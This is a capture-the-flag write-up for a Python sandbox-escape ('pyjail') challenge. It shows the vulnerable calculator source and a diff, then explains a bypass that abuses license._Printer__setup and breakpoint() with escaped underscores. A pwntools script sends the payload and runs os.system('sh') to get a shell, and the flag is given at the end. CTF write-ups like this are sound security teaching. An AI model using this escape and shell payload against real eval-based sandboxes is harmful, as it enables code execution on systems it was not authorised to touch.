 # clac defanged

```
based off of calc for ictf 2024 by maple3142

i tried modifying it to make it modular but i think now the calculator is insecure...

this challenge is not as tricky as it looks!

nc challs1.pyjail.club 23612
```

Attachment:

```python
#!/usr/local/bin/python3
from sys import addaudithook
from os import _exit
from re import match


def safe_eval(exit, code):
    def hook(*a):
        exit(0)
    def disabled_exit(*a):
        pass

    def dummy():
        pass

    dummy.__code__ = compile(code, "<code>", "eval")
    print("Activating audit hook...")
    addaudithook(hook)
    val = dummy()
    # audit hooks do not allow me to do important stuff afterwards, so i am disabling this one after eval completion
    # surely this won't have unintended effects down the line, ... right?
    print("Disabling audit hook...")
    exit = disabled_exit
    return val


if __name__ == "__main__":
    expr = input("Math expression: ")

    if len(expr) <= 200 and match(r"[0-9+\-*/]+", expr):
        # extra constraints just to make sure people don't use signal this time ...
        if len(expr) <= 75 and ' ' not in expr and '_' not in expr:
            print(safe_eval(_exit, expr))
        else:
            print('Unacceptable')
    else:
        print("Do you know what is a calculator?")
```

Diff with [ImagbinaryCTF 2024 calc](../misc/pyjail/imaginaryctf-2024-calc.md):

```diff
--- main.py	2025-10-04 10:47:50.177404199 +0800
+++ calc.py	2025-10-04 10:51:11.871714435 +0800
@@ -1,4 +1,4 @@
-#!/usr/local/bin/python3
+#!/usr/bin/env python3
 from sys import addaudithook
 from os import _exit
 from re import match
@@ -7,31 +7,18 @@
 def safe_eval(exit, code):
     def hook(*a):
         exit(0)
-    def disabled_exit(*a):
-        pass
 
     def dummy():
         pass
 
     dummy.__code__ = compile(code, "<code>", "eval")
-    print("Activating audit hook...")
     addaudithook(hook)
-    val = dummy()
-    # audit hooks do not allow me to do important stuff afterwards, so i am disabling this one after eval completion
-    # surely this won't have unintended effects down the line, ... right?
-    print("Disabling audit hook...")
-    exit = disabled_exit
-    return val
+    return dummy()
 
 
 if __name__ == "__main__":
     expr = input("Math expression: ")
-
     if len(expr) <= 200 and match(r"[0-9+\-*/]+", expr):
-        # extra constraints just to make sure people don't use signal this time ...
-        if len(expr) <= 75 and ' ' not in expr and '_' not in expr:
-            print(safe_eval(_exit, expr))
-        else:
-            print('Unacceptable')
+        print(safe_eval(_exit, expr))
     else:
         print("Do you know what is a calculator?")
```

1. Extra constraints: length less than or equal to 75, no spaces, no underscores: use `\x5f` instead of `_` in string to bypass limitation, use `setattr(A,B,C)` instead of `A.B=C`
2. Disable audit hook after calling `dummy`: return a object whose `__str__` evaluates `breakpoint()`, using the `[f"{license}" for license._Printer__setup in [breakpoint]]` snippet from [pyjail cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/)

Attack script:

```python
from pwn import *

context(log_level="debug")

#p = process(["python3", "main.py"])
p = remote("challs1.pyjail.club", 23612)
p.recvuntil(b"expression:")
p.sendline(
    ("1,setattr(license,'\\x5fPrinter\\x5f\\x5fsetup',breakpoint),license").encode()
)
p.sendline(b'__import__("os").system("sh")')
p.interactive()
```

Steps:

1. Set `license._Printer__setup` to `breakpoint`
2. Return `license`
3. `print(license)` calls `license._Printer__setup`
4. Enters PDB
5. Get shell

Flag: `jail{this_python_ain't_so_scary_anymore_when_defanged_73ef638f5110dc0660d01a}`.
